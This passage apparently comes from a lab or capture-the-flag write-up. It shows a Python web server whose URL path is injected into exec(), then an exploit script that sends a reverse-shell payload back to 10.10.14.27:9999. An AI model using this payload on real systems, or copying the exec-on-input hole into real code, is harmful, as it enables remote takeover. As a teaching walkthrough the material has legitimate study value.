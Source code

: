 ```python
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

The script *handles client-server requests to the web server*, but contains a **vulnerability** in the following code segment

```python
path = urllib.parse.unquote(path)
try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
```

since an **exec** instruction is executed into *info*, that contains *path*, **a variable that we can populate at will** and **which will be injected** into the exec.

Let’s build a script that allows us to exploit the vulnerability:

```python
import requests
import urllib
import os

target = 'http://10.10.10.168:8080/'

expl = 'tmp\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''

payload = urllib.parse.quote(expl)
print("payload")
print(target + payload)

r = requests.get(target+payload)

print(r.headers)
print(t.text)
```
